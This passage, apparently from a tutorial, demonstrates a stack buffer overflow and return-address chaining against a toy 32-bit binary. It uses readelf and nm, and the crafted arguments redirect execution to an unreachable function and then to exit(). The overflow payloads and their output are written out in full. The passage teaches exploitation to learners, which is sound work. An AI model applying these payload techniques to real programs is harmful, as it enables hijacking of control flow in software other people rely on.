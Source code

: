If we like, we can use [readelf](https://linux.die.net/man/1/readelf) to view the permissions bequeathed to each memory segment when hello is running, and assure ourselves that no segment is flagged as both writeable and executable (i.e, "*WE"). 

``` 
$ readelf -l hello

Elf file type is EXEC (Executable file) Entry point 0x8049990 There are 8 program headers, starting at offset 52

Program Headers:
  Type           Offset   VirtAddr   PhysAddr   FileSiz MemSiz  Flg Align
  LOAD           0x000000 0x08048000 0x08048000 0x001e8 0x001e8 R   0x1000
  LOAD           0x001000 0x08049000 0x08049000 0x642bc 0x642bc R E 0x1000
  LOAD           0x066000 0x080ae000 0x080ae000 0x2a56d 0x2a56d R   0x1000
  LOAD           0x0906a0 0x080d96a0 0x080d96a0 0x02c78 0x03990 RW  0x1000
  NOTE           0x000134 0x08048134 0x08048134 0x00044 0x00044 R   0x4
  TLS            0x0906a0 0x080d96a0 0x080d96a0 0x00010 0x00030 R   0x4
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RW  0x10
  GNU_RELRO      0x0906a0 0x080d96a0 0x080d96a0 0x01960 0x01960 R   0x1
```

You'll have noticed, in our [example](#code_example), that there is no obvious way of reaching the function named **weird()**. For all intents and purposes, it looks like dead code. But (since we disabled compiler optimizations) it's still there, and has an address:

```
$ nm hello | grep weird
08049b05 T weird
```

(Here, we dumped the hello binary's namespace with 
[nm](https://linux.die.net/man/1/nm) and searched for the name
"weird" with [grep](https://linux.die.net/man/1/grep).)

With a bit of trial and error (or patience and calculation), we can determine the exact offset at which to place this address (in raw, little-endian format, which in the bash shell can be achieved by putting **$'\x05\x9b\x04\x08'**) so that when the CPU goes to fetch the return address of the call to hello() from the stack, it finds 0x0849b05 instead, and continues on its way, never the wiser.

```
$ ./hello 1234567890123456789012$'\x05\x9b\x04\x08'
This program is going to greet you.
Hello, 1234567890123456789012!
ph'nglui mglw'nafh Cthulhu R'lyeh wgah'nagl fhtagn
Segmentation fault (core dumped)
```

The "Segmentation fault" at the end, here, only comes about because, when the CPU goes to fetch the return address from the stack upon reaching the end of weird(), it finds nothing that points to executable code. We can remedy this by putting _another_ address at the end of our "name". For now, let's just put the address of **weird()** again, followed by the address of **exit()**, which nm shows to lie at 0x0804fda0, so that we can terminate the process without incurring a segfault.

```
$ ./hello 1234567890123456789012$'\x05\x9b\x04\x08'$'\x05\x9b\x04\x08'\
$'\xa0\xfd\x04\x08'
This program is going to greet you.
Hello, 1234567890123456789012!
ph'nglui mglw'nafh Cthulhu R'lyeh wgah'nagl fhtagn
ph'nglui mglw'nafh Cthulhu R'lyeh wgah'nagl fhtagn
```
